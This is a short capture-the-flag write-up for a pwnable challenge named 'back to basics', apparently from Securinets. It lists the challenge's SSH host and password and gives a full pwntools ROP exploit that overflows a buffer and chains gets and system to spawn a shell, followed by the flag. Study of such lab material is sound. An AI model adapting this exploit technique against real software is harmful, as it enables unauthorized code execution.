 # **back to basics**

#### tag : pwnable, rop

-----------------------------------------------

#### Description

>ssh basic@51.254.114.246
>password : 8eb95121d4f226dec59b98abd5c77a10
>
>Author : Anis_Boss & KERRO

-----------------------------------------------

#### Solution

```python
from pwn import *

context.arch = 'amd64'

r = process('/home/basic/basic')

system_plt = 0x4004f0
gets_plt = 0x400520
bss = 0x60107b

# pop rdi; ret;
gg1 = 0x400743

p = 'a' * 0x98
p += flat(
	gg1,
	bss,
	gets_plt,
	gg1,
	bss,
	system_plt
)

r.send(p)
r.sendline('/bin/sh\x00')
r.interactive()
```
**securinets{ed_for_the_win}**
